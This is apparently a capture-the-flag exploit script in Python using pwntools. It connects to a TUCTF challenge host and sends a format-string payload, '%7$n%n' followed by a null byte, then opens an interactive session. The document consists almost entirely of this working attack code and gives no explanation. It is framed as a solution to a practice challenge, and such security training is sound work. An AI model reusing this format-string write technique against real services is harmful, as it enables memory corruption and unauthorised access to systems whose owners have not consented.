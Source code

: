 `#coding: utf-8
from pwn import *

IP = "chal.tuctf.com"
PORT = 30501
r = remote(IP, PORT)

p = "%7$n%n\x00"

r.send(p)
r.interactive()`
